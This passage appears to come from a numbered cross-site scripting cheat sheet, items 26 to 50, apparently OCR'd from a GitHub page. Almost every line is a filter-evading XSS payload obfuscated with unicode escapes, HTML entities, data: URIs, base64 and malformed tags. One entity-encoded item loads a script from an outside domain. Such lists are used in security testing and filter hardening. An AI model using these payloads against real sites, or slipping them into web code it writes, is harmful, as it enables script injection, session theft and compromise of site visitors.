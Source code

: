 26) <svg contentScriptType=text/vbs><script>MsgBox+1
 
27) <a href="data:text/html;base64_,<svg/onload=\u0061&#x6C;&#101%72t(1)>">X</a
 
28) <iframe/onreadystatechange=\u0061\u006C\u0065\u0072\u0074('\u0061') worksinIE>
 
29) <script>~'\u0061' ; \u0074\u0068\u0072\u006F\u0077 ~ \u0074\u0068\u0069\u0073. \u0061\u006C\u0065\u0072\u0074(~'\u0061')</script U+
 
30) <script/src="data&colon;text%2Fj\u0061v\u0061script,\u0061lert('\u0061')"></script a=\u0061 & /=%2F
 
31) <script/src=data&colon;text/j\u0061v\u0061&#115&#99&#114&#105&#112&#116,\u0061%6C%65%72%74(/XSS/)></script​​​​​​​​​​​​
 
32) <object data=javascript&colon;\u0061&#x6C;&#101%72t(1)>
 
33) <script>+-+-1-+-+alert(1)</script>
 
34) <body/onload=&lt;!--&gt;&#10alert(1)>
 
35) <script itworksinallbrowsers>/*<script* */alert(1)</script ​
 
36) <img src ?itworksonchrome?\/onerror = alert(1)​​​
 
37) <svg><script>//&NewLine;confirm(1);</script </svg>
 
38) <svg><script onlypossibleinopera:-)> alert(1)
 
39) <a aa aaa aaaa aaaaa aaaaaa aaaaaaa aaaaaaaa aaaaaaaaa aaaaaaaaaa href=j&#97v&#97script&#x3A;&#97lert(1)>ClickMe
 
40) <script x> alert(1) </script 1=2
 
41) <div/onmouseover='alert(1)'> style="x:">
 
42)  <--`<img/src=` onerror=alert(1)> --!>
 
43) <script/src=&#100&#97&#116&#97:text/&#x6a&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x000070&#x074,&#x0061;&#x06c;&#x0065;&#x00000072;&#x00074;(1)></script>​
 
44) <div style="position:absolute;top:0;left:0;width:100%;height:100%" onmouseover="prompt(1)" onclick="alert(1)">x</button>​
 
45) "><img src=x onerror=window.open('https://www.google.com/');>
 
46) <form><button formaction=javascript&colon;alert(1)>CLICKME
 
47) <math><a xlink:href="//jsfiddle.net/t846h/">click
 
48) <object data=data:text/html;base64,PHN2Zy9vbmxvYWQ9YWxlcnQoMik+></object>​
 
49) <iframe src="data:text/html,%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%28%31%29%3C%2F%73%63%72%69%70%74%3E"></iframe>
 
50) <a href="data:text/html;blabla,&#60&#115&#99&#114&#105&#112&#116&#32&#115&#114&#99&#61&#34&#104&#116&#116&#112&#58&#47&#47&#115&#116&#101&#114&#110&#101&#102&#97&#109&#105&#108&#121&#46&#110&#101&#116&#47&#102&#111&#111&#46&#106&#115&#34&#62&#60&#47&#115&#99&#114&#105&#112&#116&#62&#8203">Click Me</a>​
